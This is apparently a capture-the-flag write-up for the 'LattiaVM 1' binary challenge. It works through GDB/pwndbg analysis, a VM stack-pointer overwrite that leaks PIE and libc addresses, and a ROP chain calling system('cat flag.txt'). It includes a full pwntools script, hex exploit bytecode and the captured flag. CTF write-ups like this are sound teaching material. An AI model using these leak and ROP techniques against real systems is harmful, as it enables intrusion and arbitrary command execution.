For that, we need the addresses of 3 things in GDB:

- The bottom of the VM's stack (`&data`)
  - we don't need the program to modify this. we just need it to compute stack pointer offsets to the other 2 pointers.
- The return address of `main` and its location in the stack
  - this is also guaranteed to be a pointer into libc, since main is called from `__libc_start_main`.
- A pointer to somewhere we can write to and its location in the stack, either:
  - the executable's stack (a stack address)
  - one of the executable's functions (a code address, i.e. a PIE leak)

Note that we can't afford to jump the VM stack pointer to negative and point below the VM stack.
The VM's `pop()` operation has a lower bounds check, and all useful computations depend on `pop()`.
All the values we need have to be taken from above the VM stack.

Since the stack grows downwards, we can just set a breakpoint within `main`
just before it passes the VM's `data` into `runVM`. Right here:

```c
00401271        puts(str: "Executing...")
00401290        void data
00401290        runVm(&data, &bytecode, sx.q((rax_5 u>> 1).d))
0040129f        puts(str: "Goodbye!")
```

Assembly:

```asm
0040128a  4889ce             mov     rsi, rcx  {bytecode}   // bytecode passed in rsi
0040128d  4889c7             mov     rdi, rax {data}        // data passed in rdi
00401290  e8fe010000         call    runVm                  // function called here
00401295  488d05f10d0000     lea     rax, [rel data_40208d]
```

So all we need to do is set a Breakpoint at the Relative Virtual Address `0x1290`,
run the program until it hits that breakpoint,
then grab `rdi`.

There will be a _lot_ of information displayed in the debugger. I can't explain them all. If you're new like me, I recommend looking for a pwndbg and/or gdb tutorial somewhere.

```sh
# <...lots of output>
pwndbg> start
# <...even more output>
pwndbg> breakrva 0x1290 # or just "brva 0x1290"
# <...you get the point>
pwndbg> continue # or just "c"
```

And that takes us here.

<small>\*note: in this screenshot, i passed `00120b040b0b0b0b0b0b0b0b0b0b0b0b0b0b0b0b0b0a0604` as the bytecode. this value should not matter, besides being recognizable. we don't let the VM read the bytecode at all for this part of the solve.</small>


- VM Stack starts at `0x7fffffffd870`
- VM Bytecode starts at `0x555555558040`
- the most recent libc pointer is at `0x7ffff7df2f75`

GDB disables ASLR by default so we get clean `0x7ffff...` and `0x55555...` addresses and whatnot.
In a real live run, ASLR would be enabled, and some of the higher bytes would be randomized.
But for now, all we care about are the last few bytes for the relative offsets.

Anyway let's grab the return address of main and a pointer to the stack or to the executable code. `RBP` can give us both:

- `RBP` itself is a pointer to the previous stack frame, so that's a stack pointer.
- `RBP + 8` is always the current function's return address, in this case the current function is `main`.

We can extract both using the examine command:

```sh
# e[x]amine [g]iant word (8 bytes) displayed in he[x] at register rbp
pwndbg> x/gx $rbp
0x7fffffffdc80: 0x00007fffffffdd98
# same for rbp+8.
pwndbg> x/gx $rbp+0x8
0x7fffffffdc88: 0x00007ffff7df2f75

```

But I like using telescope (or just `tel`) since it gives way more info (and has pretty colors in pwndbg):

```sh
pwndbg> telescope $rbp
# a pointer to the stack (rbp)
00:0000│ rbp 0x7fffffffdc80 —▸ 0x7fffffffdd98 —▸ 0x7fffffffe11d ◂— '/home/kali/Downloads/lattia-vm-1/lattia-vm-patched'
# return address of main (rbp + 8)
01:0008│+008 0x7fffffffdc88 —▸ 0x7ffff7df2f75 ◂— mov edi, eax
02:0010│+010 0x7fffffffdc90 —▸ 0x7ffff7fc7000 ◂— 0x3010102464c457f
# a pointer to the executable (specifically, the start of main)
03:0018│+018 0x7fffffffdc98 —▸ 0x555555555199 ◂— push rbp
04:0020│+020 0x7fffffffdca0 ◂— 0x2ffffdd80
# another pointer to the stack
05:0028│+028 0x7fffffffdca8 —▸ 0x7fffffffdd98 —▸ 0x7fffffffe11d ◂— '/home/kali/Downloads/lattia-vm-1/lattia-vm-patched'
06:0030│+030 0x7fffffffdcb0 ◂— 0
07:0038│+038 0x7fffffffdcb8 ◂— 0xa531370f04eb31e4
```

Well, would you look at that. How convenient, a pointer directly into executable code. Free PIE leak.

Given that we can access both a stack pointer and an RVA pointer, we now have both options:

- If we choose the stack pointer, we'd have to encode "cat flag.txt" (or similar) in the VM Stack using VM instructions.
- If we choose the code pointer, we can just embed the string directly into the VM Bytecode.

I think there's a clear winner here. Let's do the code pointer.
_Not like we'd ever need to figure out how to encode strings into the stack, right? <small>(foreshadowing)</small>_

Anyway, we need to jump the VM Stack pointer beyond both of our pointers.

- VM Stack starts at `RDI: 0x7fffffffd870`
- Return address/libc leak located at `RBP+0x8: 0x7fffffffdc88`
- PIE leak located at `RBP+0x18: 0x7fffffffdc98`

The larger pointer is the PIE leak.
We need to get the distance from the VM Stack to the PIE leak, then divide that by 4 since the VM Stack pointer operates on `int32_t`; 4 bytes each.

```sh
pwndbg> distance $rdi $rbp+0x18
0x7fffffffd870->0x7fffffffdc98 is 0x428 bytes (0x85 words)
pwndbg> print 0x428 / 4
$1 = 266
```

Now we just need to overwrite `data[0x100]` with `266`, right?

Not exactly:

- We operate on 32 bits, but our targets are 64-bit addresses.
  - setting `data[0x100] = 266` would jump to the _start_ of our target 64-bit word.
  - We need to jump _entirely above_ it.
  - We'll have to add at least 1 to the address to jump past the whole word.
- `data[0x100]` is the stack's _length_.
  - It points to the address that is one int32 _above_ the stack.
  - To point the _top of the stack itself_ directly at our target, we need another +1.
- When we DUP to overwrite, The VM Stack Pointer is incremented _after_ `data[0x100]` is overwritten.
  - Setting `data[0x100] = 268` would then be followed up by `data[0x100]++`, taking us to 269.
  - We need a -1 to compensate, but better to overshoot than undershoot.

By these calculations, we need to overwrite with 267.

That's a lot to think about. Might as well just have a proper debugger.

# Debugging: VM Debugger

We'll find a good spot to set a breakpoint during VM execution,
then find where all the variables are from there so we can print them.



Note that the `Stack` panel in my Binary Ninja is set to be relative to `rbp` as a base register.
By default it's set to `entry` which is less convenient in this case.

At runtime, the addresses of each important variable are:

- rbp -0x98 int64_t bytecodeLen
- rbp -0x90 uint8_t\* bytecode
- rbp -0x88 int32_t\* data
- rbp -0x74 int32_t instructionPtr
- rbp -0x70 int32_t iterCount

Now, we _could_ use GDB to manually inspect the VM while it's running.
But it's just way more convenient to use a script that prints everything for us.

I'll spare you the details. I'll just hand out the solve script I whipped up with python pwntools + gdbscript + pwndbg.
Let it be known that GDB's error messages are the least helpful errors I have seen so far.
It has been a displeasure coding this. But, well, it's enough.

Have at it.

```py
"""
debug.py: LattiaVM Debugger
place this file next to `lattia-vm-patched`

Usage:

# run locally
python3 debug.py
# run in docker
python3 debug.py DOCKER
# run on remote
python3 debug.py REMOTE

# debug, visualize step-by-step
python3 debug.py GDB
# debug, skip iterations until stack pointer hits 256
python3 debug.py GDB OVERFLOW
# debug, skip iterations until opcode 0x0d ("HALT") is hit
python3 debug.py GDB HALT
# debug, enable ASLR (works with or without OVERFLOW/HALT)
python3 debug.py GDB ASLR
"""

from pwn import *

# TODO: put more bytecode in here
bytecode = """
00 42
0a
0d
"""
bytecode = ''.join(bytecode.split())

print(bytecode)

# gdbscript that implements a vm debugger inside the debugger that i run in a vm
# feel free to modify the script if you want
skip_value = 2 if args.HALT else 1 if args.OVERFLOW else 0
gdbscript = f'set $SKIP = {skip_value}' + r"""
set gdb-workaround-stop-event enabled
set $codestr = *(char**)($rsp+0x10)
set $codeptr = "                                                                                                                                                                                                                                                              "
set $opcodes = "PUSH\0POP \0ADD \0SUB \0MUL \0DIV \0JMP \0JNE \0JE  \0JG  \0PRNT\0DUP \0SWAP\0HALT\0"
set $vmdbg = 0

brva 0x1199
brva 0x1984
commands
    silent
    if !$vmdbg
        set context-sections ''
        set $vmdbg = 1
    end
    set $len = *(int*)($rbp-0x98)
    set $vmbc = *(char**)($rbp-0x90)
    set $vmstk = *(int**)($rbp-0x88)
    set $vmip = *(int*)($rbp-0x74)
    set $iters = *(int*)($rbp-0x70)

    set $vmsp = *(int*)($vmstk+0x100)
    set $vmop = *(char*)($vmbc+$vmip)
    set $opname = $opcodes+($vmop*5)
    set $vmnext = -1

    if $vmop==0x0 || $vmop==0x6 || $vmop==0x7 || $vmop==0x8 || $vmop==0x9 || $vmop==0xc
        set $vmnext = *(char*)($vmbc+$vmip+1) & 0xff
    end

    set $elements_skipped = ($vmsp-8)/16*16

    printf "ip: %d sp: %d, iters: %d, len: %d\n", $vmip, $vmsp, $iters, $len
    if ($SKIP==1 && $vmsp<256) || ($SKIP==2 && $vmop != 0x0d)
        continue
    end
    printf "bc: %s\n", $codestr
    printf "    %s^^", ($codeptr+254-($vmip*2))
    if $vmnext!=-1
        printf "^^"
    end
    printf " op: %s", $opname
    if $vmnext!=-1
        printf " 0x%x", $vmnext
    end
    printf "\n"

    printf "(%d elements skipped)\n", $elements_skipped
    x/32wx $vmstk+($elements_skipped)

    if $vmsp > 256
        printf "\n"
        telescope *(void**)$rbp
    end
end

brva 0x129f
commands
    set context-sections 'regs disasm code ghidra stack backtrace expressions threads heap_tracker'
end
"""

vuln = './lattia-vm-patched'
if args.GDB:
    io = gdb.debug(
        [vuln, bytecode],
        gdbscript=gdbscript,
        aslr=args.ASLR,
    )
elif args.DOCKER:
    io = remote('localhost', 5000)
    io.sendline(bytecode.encode())
elif args.REMOTE:
    io = remote('lattia-vm-1.instances.ctf.l3ak.team', 1337, ssl=True)
    io.sendline(bytecode.encode())
else:
    io = process([vuln, bytecode])

while True:
    line = io.recvline().decode()
    print(line, end='')
    try:
        n = int(line) & 0xffffffff
        print(f'= {n:0>8x}')
        print()
    except:
        pass
    if 'Goodbye!' in line:
        break

io.interactive()
```

There are many ways to make this code cleaner.
For example, using Python scripting instead of raw GDBscript.
I don't care at this point. GDB Python errors are equally annoying.
Let's move on.

# Precise Stack Overflow

We need to overwrite the stack pointer (vmsp) with the number 267 or higher,
then we need to stop right after to do stuff.

Remember again:

- `data[0x100]` (index 256) is the stack pointer
- we have 128 bytes of program bytecode
- we have 512 max iterations

There's no way to push multiple bytes in one instruction.
We have to push all the way up there.
There are a bunch of clever ways to do this that save a bunch of bytes and iterations,
but we'll just do the simple way: An unrolled loop that DUPs to exactly 254 elements.

Once we're at 254, we compute the number we want to push to, then print just the ones we want.

```py
# 1.) DUP up to 254 = 1 + (11 * 23)
PUSH 23
# stack pointer currently at exactly 1

# loop
PUSH 1 SWAP 1 SUB # decrement current counter
    # bump stack pointer 11 items at a time (1, 12, 23, ..., 254)
    DUP DUP DUP DUP
    DUP DUP DUP DUP
    DUP DUP DUP

# the max stack pointer the VM can reach before an overwrite is 256.
# the max stack pointer this program can reach before this statement is 254.
# the DUP PUSH will use at most 2 extra ints in the stack frame.
# this will not overwrite.
DUP PUSH 0 JNE 2 # if counter is nonzero, goto loop

# vmsp is now at exactly 254

# 134 * 2 = 268, convenient way to push a value larger than one byte
# push+dup is only 2 slots, so this is allowed
PUSH 134 DUP ADD

# vmsp is 255 at this point
# from here, DUP x2 should overflow with 268 as the target value
DUP DUP
# vmsp should be 268+1 = 269 now

# push and print number so we can quickly see where we are in the debugger
PUSH 42 PRINT

POP         # 269: nothing important
PRINT PRINT # 268,267: pie leak
POP POP     # 266,265: nothing important
PRINT PRINT # 264,263: libc leak
HALT
```

Hex:

```py
# you can set $SKIP = 1 in the gdbscript
# to skip most of the pushing

bytecode = """
00 17
00 01 0c 01 03
    0b 0b 0b 0b
    0b 0b 0b 0b
    0b 0b 0b
0b 00 00 07 02
00 86 0b 02
0b 0b

00 42 01
01
0a 0a
01 01
0a 0a
0d
"""
```

Output:

```
Executing...
66
= 00000042

21845
= 00005555

1431654809
= 55555199

32767
= 00007fff

-136368267
= f7df2f75

Program finished. Took 408 iterations.
Goodbye!
```

Alright. We've reached both leaks.

Time to build:

# The ROPchain

First we have to encode the command `cat flag.txt\0` as a string in the bytecode.
This could be as simple as just placing it at the very end of the bytecode, and adding padding for everything before it:

```py
bytecode = """
(...exploit bytecode)
00 00 00 00 00 00 (padding)

("cat flag.txt")
63 61 74 20 66 6c 61 67 2e 74 78 74 00
"""
```

This would put its address at exactly `&bytecode[128 - strlen("cat flag.txt") - 1]` which would be `&bytecode[115]`.

We know that `&bytecode == piebase+0x4040` from reversing, so `&bytecode[115] == piebase+0x40b3`.

We want to do a couple things:

- make the ropchain:
  - ret; to align the stack correctly
  - pop rdi; ret;
  - pointer to the command
  - call `system()`

<!-- Let's find the relevant gadgets:

```py
poprdi = rop.rdi.address
system = libc.sym["system"]
print(hex(poprdi))
print(hex(system))
```

output:

```py
0x2a9b7
0x54790
```
retgadget is -->

This is our stack after the stack overflow:

```py
# higher addresses go upwards
# <top of stack>
0x........
0x00005555 # address of main:
0x55555199 # = piebase+0x1199
0x........
0x........
0x00007fff # return address from main back to libc:
0xf7df2f75 # = libc+0x29f75
```

We need to SWAP, DUP, and math a bunch of times to rearrange it to something like this:

```py
# <top of stack>
0x00007fff # system()
0xf7e1d790 # = libc+0x54790
0x00005555 # address of "cat flag.txt"
0x55555199 # = piebase+0x40b3
0x00007fff # pop rdi; ret;
0xf7df39b7 # = libc+0x2a9b7
0x00007fff # ret;
0xf7df39b8 # = libc+0x2a9b8
```

Let's manipulate this step by step. I like visualizing manipulations using this style:

```py
# start

# libc+29f75, libc_hi, _, _, pie+1199, pie_hi, _
SWAP 6
# _, libc_hi, _, _, pie+1199, pie_hi, libc+29f75

# libc+0x29f75 + [51^2+25] = libc+libc+29f75 = poprdi
PUSH 51 DUP MUL PUSH 25
ADD
# _, libc_hi, _, _, pie+1199, pie_hi, libc+2a9b7

# libc+0x2a9b7 + [1] = libc+0x2a9b8 = retgadget
DUP PUSH 1 ADD
# _, libc_hi, _, _, pie+1199, pie_hi, libc+2a9b7, libc+2a9b8

# libc+0x2a9b8 + [(20*71+9)*120] = libc+0x54790 = system
DUP
PUSH 20 PUSH 71 MUL PUSH 9 ADD PUSH 120 MUL
ADD
# _, libc_hi, _, _, pie+1199, pie_hi, libc+2a9b7, libc+2a9b8, libc+54790
# renamed:
# _, libc_hi, _, _, pie+1199, pie_hi, poprdi, retgadget, system
SWAP 2
# _, libc_hi, _, _, pie+1199, pie_hi, system, retgadget, poprdi
SWAP 6 POP
# _, libc_hi, poprdi, _, pie+1199, pie_hi, system, retgadget
SWAP 7
# retgadget, libc_hi, poprdi, _, pie+1199, pie_hi, system, _
SWAP 6
# retgadget, _, poprdi, _, pie+1199, pie_hi, system, libc_hi
DUP DUP
# retgadget, _, poprdi, _, pie+1199, pie_hi, system, libc_hi, libc_hi, libc_hi
SWAP 6 POP
# retgadget, _, poprdi, libc_hi, pie+1199, pie_hi, system, libc_hi, libc_hi
SWAP 7
# retgadget, libc_hi, poprdi, libc_hi, pie+1199, pie_hi, system, libc_hi, _
SWAP 4
# retgadget, libc_hi, poprdi, libc_hi, _, pie_hi, system, libc_hi, pie+1199

# pie+0x1199 + [50*241+8] = pie+0x40b3 = catflag
PUSH 50 PUSH 241 MUL PUSH 8 ADD
ADD
# retgadget, libc_hi, poprdi, libc_hi, _, pie_hi, system, libc_hi, catflag
SWAP 4

# retgadget, libc_hi, poprdi, libc_hi, catflag, pie_hi, system, libc_hi, _

HALT
```

In bytecode:

```py
stack_overflow = """
00 17
00 01 0c 01 03
    0b 0b 0b 0b
    0b 0b 0b 0b
    0b 0b 0b
0b 00 00 07 02
00 86 0b 02
0b 0b
"""

build_rop = """
0c 06
00 33 0b 04 00 19 02
02
0b 00 01 02
0b
00 14 00 47 04 00 09 02 00 78 04
02
0c 02
0c 06 01
0c 07
0c 06
0b 0b
0c 06 01
0c 07
0c 04
00 32 00 f1 04 00 08 02
02
0c 04
0d
"""

# concatenate our bytecode
bytecode = stack_overflow + build_rop
bytecode = ''.join(bytecode.split())

# append the command to the very end of the bytecode
bytecode += b'cat flag.txt\0'.hex().rjust(256 - len(bytecode), '0')
```

And here's what we get in the debugger:

```sh
$ python3 debug.py GDB HALT
pwndbg> continue
pwndbg> continue
```



You can try it out with ASLR enabled, it'll work the same.

`gdb.debug()` doesn't really make it easy for us to see the output of the `system()` call for whatever reason.

But the local run says enough:

```sh
$ python3 debug.py
# (pwn checksec output omitted)
001700010c01030b0b0b0b0b0b0b0b0b0b0b0b0000070200860b020b0b0c0600330b04001902020b0001020b0014004704000902007804020c020c06010c070c060b0b0c06010c070c04003200f104000802020c040d000000000000000000000000000000000000000000000000000000000063617420666c61672e74787400
[+] Starting local process '/home/kali/Downloads/lattia-vm-1/lattia-vm-patched': pid 541547
Executing...
Program finished. Took 434 iterations.
Goodbye!
[*] Switching to interactive mode
[*] Process '/home/kali/Downloads/lattia-vm-1/lattia-vm-patched' stopped with exit code -11 (SIGSEGV) (pid 541547)
L3AK{t3st_fl4g}[*] Got EOF while reading in interactive
```

That gave us `L3AK{t3st_fl4g}`. If you switched this out for the REMOTE during the competition,
you would've gotten:

# The Flag

```
L3AK{h3ll000_c4ll1ng_fr0m_50-47714-5-1000_4ny0n3_7h3r3}
```

> "Hellooo? Calling from L-attia-V-M, anyone there?"

And there you have it.

# Unintended Solve

Many players found a way to solve LattiaVM 1 using the same solution as LattiaVM 2; that was an unpatched unintended solve. I didn't think to patch it out since my intended solve scripts for 1 and 2 only worked on their respective targets, for reasons I will explain in the writeup for part 2.

- Shatterbox
